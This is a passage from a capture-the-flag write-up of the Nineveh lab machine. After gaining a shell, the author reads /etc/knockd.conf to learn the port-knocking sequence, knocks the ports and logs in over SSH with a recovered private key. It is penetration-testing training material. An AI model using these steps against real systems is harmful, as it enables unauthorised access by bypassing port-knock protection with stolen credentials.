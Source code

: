```bash
amrois@nineveh:~$ id
id
uid=1000(amrois) gid=1000(amrois) groups=1000(amrois)
```

### (Alternative) Knockd

There's `knockd` running by `root`.

```bash
root      1308     1  0 02:38 ?        00:02:11 /usr/sbin/knockd -d -i ens160
```

The knocking order is specified in /etc/knockd.conf.

```bash
amrois@nineveh:~$ cat /etc/knockd.conf
cat /etc/knockd.conf
[options]
 logfile = /var/log/knockd.log
 interface = ens160

[openSSH]
 sequence = 571, 290, 911 
 seq_timeout = 5
 start_command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn

[closeSSH]
 sequence = 911,290,571
 seq_timeout = 5
 start_command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn
```

It says 571-290-911 should be knocked in order to open SSH service.

```bash
┌──(kali㉿kali)-[~]
└─$ knock -v 10.10.10.43 571 290 911 
hitting tcp 10.10.10.43:571 
hitting tcp 10.10.10.43:290 
hitting tcp 10.10.10.43:911

┌──(kali㉿kali)-[~]
└─$ ssh -i nineveh.priv amrois@10.10.10.43 
The authenticity of host '10.10.10.43 (10.10.10.43)' can't be established. ED25519 key fingerprint is SHA256:kxSpgxC8gaU9OypTJXFLmc/2HKEmnDMIjzkkUiGLyuI. This key is not known by any other names. 
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes Warning: Permanently added '10.10.10.43' (ED25519) to the list of known hosts. Ubuntu 16.04.2 LTS 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64) 

* Documentation: https://help.ubuntu.com 
* Management: https://landscape.canonical.com 
* Support: https://ubuntu.com/advantage 

288 packages can be updated. 
207 updates are security updates. 

You have mail. 
Last login: Mon Jul 3 00:19:59 2017 from 192.168.0.14 
amrois@nineveh:~$ whoami amrois 
amrois@nineveh:~$ id uid=1000(amrois) gid=1000(amrois) groups=1000(amrois)
```
